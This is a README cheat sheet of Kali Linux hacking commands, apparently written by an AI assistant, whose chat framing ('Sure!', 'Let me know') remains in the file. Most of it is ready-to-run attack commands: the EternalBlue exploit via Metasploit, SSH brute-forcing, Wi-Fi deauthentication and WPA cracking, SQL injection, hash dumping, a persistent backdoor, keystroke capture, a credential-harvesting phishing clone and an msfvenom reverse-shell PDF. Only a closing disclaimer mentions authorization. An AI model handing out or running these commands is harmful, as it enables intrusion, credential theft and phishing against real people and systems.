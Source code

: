 Sure! Here’s a **README.md** file containing a collection of useful Kali Linux commands for hacking, penetration testing, and cybersecurity.  

---

# **Kali Linux Cheat Sheet for Hacking & Cybersecurity**  

## **Introduction**  
This document provides a list of essential Kali Linux commands used for penetration testing, ethical hacking, and cybersecurity. These commands cover network scanning, exploitation, password cracking, and more.

---

## **Table of Contents**  
1. [System Information & Management](#system-information--management)  
2. [Network Scanning & Reconnaissance](#network-scanning--reconnaissance)  
3. [Exploitation & Vulnerability Scanning](#exploitation--vulnerability-scanning)  
4. [Password Cracking](#password-cracking)  
5. [Wireless Attacks](#wireless-attacks)  
6. [Web Application Hacking](#web-application-hacking)  
7. [Post-Exploitation](#post-exploitation)  
8. [Forensics & Stealth Techniques](#forensics--stealth-techniques)  
9. [Social Engineering](#social-engineering)  

---

## **1. System Information & Management**  

```bash
# Check system information  
uname -a  

# Display current user  
whoami  

# List all users  
cat /etc/passwd  

# Check kernel version  
uname -r  

# Show running processes  
ps aux  

# Show network connections  
netstat -tulnp  

# View system logs  
cat /var/log/syslog  
```

---

## **2. Network Scanning & Reconnaissance**  

```bash
# Scan network for live hosts  
nmap -sn 192.168.1.0/24  

# Scan for open ports  
nmap -p- 192.168.1.1  

# Perform aggressive scan (OS detection, version detection, script scanning)  
nmap -A 192.168.1.1  

# Scan for vulnerabilities  
nmap --script vuln 192.168.1.1  

# Capture network traffic  
tcpdump -i eth0  

# Display ARP table  
arp -a  
```

---

## **3. Exploitation & Vulnerability Scanning**  

```bash
# Start Metasploit Framework  
msfconsole  

# Search for exploits  
search exploit windows/smb  

# Use an exploit  
use exploit/windows/smb/ms17_010_eternalblue  

# Set target IP  
set RHOSTS 192.168.1.100  

# Run exploit  
exploit  

# Scan vulnerabilities with Nikto  
nikto -h http://target.com  
```

---

## **4. Password Cracking**  

```bash
# Crack hashes using John the Ripper  
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt  

# Brute-force SSH login with Hydra  
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100  

# Crack password hashes with Hashcat  
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt  
```

---

## **5. Wireless Attacks**  

```bash
# Enable monitor mode  
airmon-ng start wlan0  

# Scan for Wi-Fi networks  
airodump-ng wlan0mon  

# Capture packets for WPA cracking  
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon  

# Perform deauthentication attack  
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon  

# Crack WPA handshake with Aircrack-ng  
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF capture.cap  
```

---

## **6. Web Application Hacking**  

```bash
# Scan website for vulnerabilities with SQLmap  
sqlmap -u "http://target.com/login.php?id=1" --dbs  

# Check for XSS vulnerabilities  
xsser -u "http://target.com/search.php?q="  

# Run directory brute-force with Gobuster  
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt  
```

---

## **7. Post-Exploitation**  

```bash
# Get system shell  
shell  

# Dump password hashes in Windows  
hashdump  

# Maintain access with a persistent backdoor  
persistence -U -i 30 -p 4444 -r  

# Capture keystrokes  
keyscan_start  

# Retrieve stored Wi-Fi passwords  
netsh wlan show profile name="WiFiName" key=clear  
```

---

## **8. Forensics & Stealth Techniques**  

```bash
# Extract metadata from a file  
exiftool image.jpg  

# Hide a file inside an image (Steganography)  
steghide embed -cf image.jpg -ef secret.txt  

# Search for deleted files  
foremost -i disk.img -o output/  

# Analyze memory dump  
volatility -f memory.dmp --profile=Win10x64 pslist  
```

---

## **9. Social Engineering**  

```bash
# Generate a phishing page with Social Engineering Toolkit (SET)  
setoolkit  

# Clone a website for phishing  
setoolkit -> Social-Engineering Attacks -> Website Attack Vectors -> Credential Harvester  

# Create a malicious PDF  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f pdf > exploit.pdf  
```

---

## **Disclaimer**  
This repository is for **educational purposes only**. Unauthorized use of these tools may be **illegal**. Always ensure you have **proper authorization** before performing penetration tests.  

---

Let me know if you need more commands or modifications! 🚀
